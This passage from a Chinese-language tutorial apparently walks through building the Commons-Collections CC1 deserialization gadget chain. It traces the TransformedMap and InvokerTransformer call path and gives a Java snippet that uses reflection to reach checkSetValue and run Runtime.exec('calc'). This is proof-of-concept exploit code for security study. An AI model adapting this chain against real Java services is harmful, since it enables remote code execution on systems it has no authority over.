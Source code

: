 ![image-20250922183107614](./Commons-Collections篇01-CC1链/image-20250922183107614.png)

### 反推流程

`TransformedMap.java`包-`decorate`方法->`TransformedMap.java`包-`TransformedMap`构造方法(protected)->`valueTransformer`方法->`TransformedMap.java`包->`checkSetValue`方法(protected)->`InvokerTransformer.java`包->`transform`

### 代码解释

- `decorate`方法是Map类型，实例化`decorate`时调用`TransformedMap`构造方法，将`invokerTransformer`赋值给`valueTransformer`
- `checkSetValue`是`protected`类型，需要利用反射先得到`transformedMapClass`然后调用其中的`checkSetValue`方法
- 最后一行是调用实例化好的`decorateMap`的`checkSetValueMethod`方法，参数为`runtime`，等同于`decorateMap.checkSetValue(runtime);`

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap,null,invokerTransformer);
        Class <TransformedMap> transformedMapClass = TransformedMap.class;
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue",Object.class);
        checkSetValueMethod.setAccessible(true);
        checkSetValueMethod.invoke(decorateMap,runtime);
```

## 第二步

- 目前找到的链子位于 `checkSetValue` 当中，去找 `.decorate` 的链子，发现无法进一步前进了，所以我们回到 `checkSetValue` 重新找链子。

继续 `find usages`，找到了 `parent.checkSetValue(value);` 调用了 `checkSetValue`

![image-20250923114648635](./Commons-Collections篇01-CC1链/image-20250923114648635.png)
